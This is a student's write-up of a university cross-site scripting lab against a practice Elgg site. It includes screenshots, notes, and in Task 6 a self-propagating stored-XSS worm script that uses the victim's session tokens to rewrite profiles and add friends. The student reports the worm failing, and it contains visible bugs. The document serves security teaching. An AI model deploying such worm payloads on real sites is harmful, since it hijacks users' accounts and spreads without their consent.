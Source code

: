 
<div align="center">Lab 02 | CSCI 476
  
Zoe Norden | s68k193() 
</div>


## Task 1

![image](https://github.com/znorden17/csci-476-594-spring2021-private/blob/main/lab05/screenshots/task1.1.png)

![image](https://github.com/znorden17/csci-476-594-spring2021-private/blob/main/lab05/screenshots/task1.png)

I wasn't sure if I need tod o the more advanced thing with the separate file or anything. Given that it didn't say so in the instructions, I will assume I did not need to do so. So far this seems very similar to the SQL injection thing that we did on the last lab.

Is it possible to do a more advanced version of this using the larger script file thing and then insert a video or something? I wouldn't be able to get it to work with the existing field because I'd run into a character limit on my space, but I should be able to run something if I tossed it into a file to run. I am curious if I could get the actual video to pop up or if it'd just be the link to the video, which wouldn't be as funny. 

## Task 2

![image](https://github.com/znorden17/csci-476-594-spring2021-private/blob/main/lab05/screenshots/task2.png)
![image](https://github.com/znorden17/csci-476-594-spring2021-private/blob/main/lab05/screenshots/task2.1.png)

I still don't quite understand the dangers behind cookies. 

## Task 3

![image](https://github.com/znorden17/csci-476-594-spring2021-private/blob/main/lab05/screenshots/task3.png)
![image](https://github.com/znorden17/csci-476-594-spring2021-private/blob/main/lab05/screenshots/task3.1.png)

I can kind of see why knowing this info would be dangerous though. 


## Task 4

### Task 4.1

Our first image is pre-friend Boby and the second image is after we've added Boby as a friend. 
![image](https://github.com/znorden17/csci-476-594-spring2021-private/blob/main/lab05/screenshots/task4.1.png)
![image](https://github.com/znorden17/csci-476-594-spring2021-private/blob/main/lab05/screenshots/task4.1.2.png)

Now here's a code block of the code that I inserted. There is also a screenshot of the full code snippet below that textblock of code. From what I understand, this code looks at the url and then goes to add friend withthe id number of 57. 

`var sendurl="http://www.xsslabelgg.com/action/friends/add" + "?friend=57" + token + ts;`

![image](https://github.com/znorden17/csci-476-594-spring2021-private/blob/main/lab05/screenshots/task4.1.1.png)


### Task 4.2

For task 4.2 I was unable to successfully re-add Boby as a friend. To try and accomplish this, I removed the code from the "edit HTML" section and just directly pasted it in Samy's bio. I also removed Boby as a friend before I used this attack to verify things. I was unable to readd Boby as a friend if I just pasted it in the normal About me field. As you can see from the screenshots, I am still friendless. 

![image](https://github.com/znorden17/csci-476-594-spring2021-private/blob/main/lab05/screenshots/task4.2.png)
![image](https://github.com/znorden17/csci-476-594-spring2021-private/blob/main/lab05/screenshots/task4.2.1.png)

## Task 5


### Task 5.1

Once again, we will be targetting poor Boby. As you can see from the screenshot below, Boby has a very poor MySpace-esque profile page. Let's see if we can't spice things up. You know, once he visits Samy's profile.

![image](https://github.com/znorden17/csci-476-594-spring2021-private/blob/main/lab05/screenshots/task5.1.png)
![image](https://github.com/znorden17/csci-476-594-spring2021-private/blob/main/lab05/screenshots/task5.1.1.png)

Okay, so I had to create the variable desc which is our description variable. This is because I honestly couldn't tell if the `var name, guid, ts, token` was actually doing anything so I created the `var desc` which would directly edit the profile of poor Boby. Full code snippet is below. 

![image](https://github.com/znorden17/csci-476-594-spring2021-private/blob/main/lab05/screenshots/task5.1.2.png)


### Task 5.2

You need this line of code because if you didn't have it, you would attack yourself. So this is basically saying that if the user id is not Samy's, then we continue with the attack, but if it is, we do not do anything. This was probably the hardest part for me to figure out for some reason because I couldn't figure out what Samy's GUID was for the life of me. 

## Task 6

For all intents and purposes - this should work. I probably missed a quotation somewhere and that's why it's not working. Or maybe I just spelled something incorrectly, but I've been staring at code that, for all intents and purposes, should absolutely work. And yet, it's frusturating that it doesn't. 

What this should do is that if someone vists Samy's profile, then their stuff gets edited. So if Boby visists Samy's profile then he gets his descriptions edited and whatnot. And then if Alice visits Boby's profile, then her information also gets edited and so on and so forth. There's this giant chain of people that get infected by poor Samy over there. 

That's what, again, should happen. Unfortunately for me that does not seem to be the case. Regretfully. 

```js

<script type="text/javascript" id="worm">
window.onload = function(){

var headerTag = "<script id=\ "worm\" type=\"text/javascript\">";
var jsCode = document.getElementById("worm").innerHTML;
var tailTag="</" + "script>";
var wormCode = encodeURIComponent(headerTag + jsCode + tailTag);

var userName=elgg.session.user.name;
var guid="&guid="+elgg.session.user.guid;
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
var token="&__elgg_token="+elgg.security.token.__elgg_token;

var accesslevel="&accesslevel[description]=2";
var description="&description="+wormCode;
var briefdescription="&briefdescription=Zoe was here again";

var content=token +ts +userName + description + briefdescription+accesslevel+guid;
var sendurl="http://www.xsslabelgg.com/action/profile/edit";
var Ajax=null;
Ajax=new XMLHttpRequest();
Ajax.open("POST",sendurl,true);
Ajax.setRequestHeader("Host","www.xsslabelgg.com");
Ajax.setRequestHeader("Content-Type",
	"application/x-www-form-urlencoded");
Ajax.send(content);

var Ajax2=null;
var sendurl="http://www.xsslabelgg.com/action/friends/add?friend=59"+ts+token;
Ajax=new XMLHttpRequest();
Ajax2.open("GET",sendurl,true);
Ajax2.setRequestHeader("Host","www.xsslabelgg.com");
Ajax2.setRequestHeader("Content-Type",
	"application/x-www-form-urlencoded");
Ajax2.send();
}
</script>

```

